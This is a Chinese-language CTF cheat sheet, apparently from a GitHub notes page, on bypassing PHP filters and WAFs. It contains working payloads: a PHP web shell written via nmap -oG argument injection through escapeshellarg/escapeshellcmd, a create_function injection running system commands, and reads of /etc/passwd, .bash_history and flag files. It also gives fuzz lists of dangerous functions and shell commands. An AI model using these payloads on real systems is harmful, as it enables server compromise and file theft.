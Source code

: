 23. sql md5 加密注入

24. 过 waf

    1. var_dump(scandir(/))
    2. 序列化
    3. 特殊字符绕过使用 <>，\*，select，%，反引号，||，&, \
    4. `preg_match('/^[a-z0-9_]*$/isD',$act)` 绕过使用?act=\create_function&arg=){}system("ls");//
    5. 绕过 wakeup 见后面
    6. 绕过 php 关键字 --- <?php 换成 <?= @eval($_POST["pd"]);?> -oG pd.phtml '
    7. 绕过 后缀黑名单 phtml .phps .php5 .pht, 见后面对 apache 设置
    8. 命令行注入 escapeshellarg, escapeshellcmd, `?host=' <?php @eval($_POST["hack"]);?> -oG hack.php '`
    9. 命令行注入 escapeshellarg, escapeshellcmd, `?host=' <?php echo`cat /flag`;?> -oG test.php '`
    10. [PHP escapeshellarg()+escapeshellcmd() 之殇](https://paper.seebug.org/164/)

25. xxe/xml 实体注入 `[NCTF2019]True XML cookbook`

26. 常见读取文件

```
    /etc/passwd
    /etc/hosts
    /proc/net/arp     ,通过这里得到IP段，爆破
    .bash_history
```

11. 网站备份 index.php, index.php.bak, index.php~, .git/
12. GET 请求改 POST 请求
13. Java 项目 WEB-INF/web.xml
14. vim 临时文件 swp swo : `vim -r ff.swp` `cat ff.swp`

## bypass 绕过方式

    2. bypass informations:

```
    - 大小写绕过
    - 空格 =>
        2. 括号绕过 or('1')

    - fuzz_list-regexbuddy测:


       php函数-- print_r(glob("*"));|var_dump(scandir('/');|var_dump(scandir(chr(47));|var_dump(shell_exec('type /flag'));
                 highlight_file|show_source|readfile|file_get_contents -- file_get_contents需要echo
                 exec|shell_exec|system|^|~|`|passthru|proc_open|phpinfo|popen|dl|eval|proc_terminate|touch|escapeshellcmd|escapeshellarg|assert|substr_replace|call_user_func_array|call_user_func|array_filter|array_walk|array_map|registregister_shutdown_function|register_tick_function|filter_var|filter_var_array|uasort|uksort|array_reduce|array_walk|array_walk_recursive|pcntl_exec|fopen|fwrite|file_put_contents|unserialize
                 phar|iconv|UCS|UTF|rot|quoted|base64|%|toupper|tolower|dechunk|\.\.|index|function|zlib|strip_tags
                 high|get_defined_vars|scandir|var_dump|read|file|php|curent|end|getallheaders|array_reverse|pos
        反序列化 ^[Oa]:[\d]+|Array|Iterator|Object|List
        文件写入 >|echo|printf|cat|tee file1 file2|`ls / |script xxx` |dd
        文件读取 cat|rev|more|tail|less|head|tac|sort|nl|hexdump|od|grep|base64|curl|wget|gcc|sysctl|dir|ll|tree|echo *|find|printf
                     * sysctl -n /../../../../../flag
                     * `echo "Hello, World" | dd of=output`
                     * code=('system')('base64 /f*')
            输出 print_r, vardump(array), 把array 转字符串

                 windows下 type flag.php
                 Linux      cat flag.php
                 preg_match() 在匹配一次后停止搜索。
```
